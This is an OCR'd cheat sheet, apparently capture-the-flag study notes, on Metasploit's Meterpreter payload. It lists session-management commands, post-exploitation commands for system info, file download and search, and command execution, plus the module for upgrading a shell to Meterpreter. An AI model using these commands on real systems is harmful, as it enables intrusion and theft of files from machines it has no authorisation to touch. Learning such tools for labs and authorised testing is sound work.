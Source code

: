 - The Meterpreter (Meta-lnterpreter) payload is an advanced multi-functional
payload that operates via DLL injection and is executed in memory on the target
system, consequently making it difficult to detect.
- It communicates over a stager socket and provides an attacker with an interactive
command interpreter on the target system that facilitates the execution of system
commands, file system navigation, keylogging and much more.
## Managing sessions
```
sessions
sessions -C command -i session_id
sessions -k session_id
sessions -n name -i session_id
```

## Commands
```
sysinfo
getuid
edit file -> open vim editor
download file 
getenv var_name (PATH, TERM)
search -f file (*flag*)
search -d directory -f file
execute command
show_mount
```

## Upgrading a shell to a meterpreter
````
module post/multi/manage/shell_to_meterpreter
sessions -u session_id [!] Use the same module
```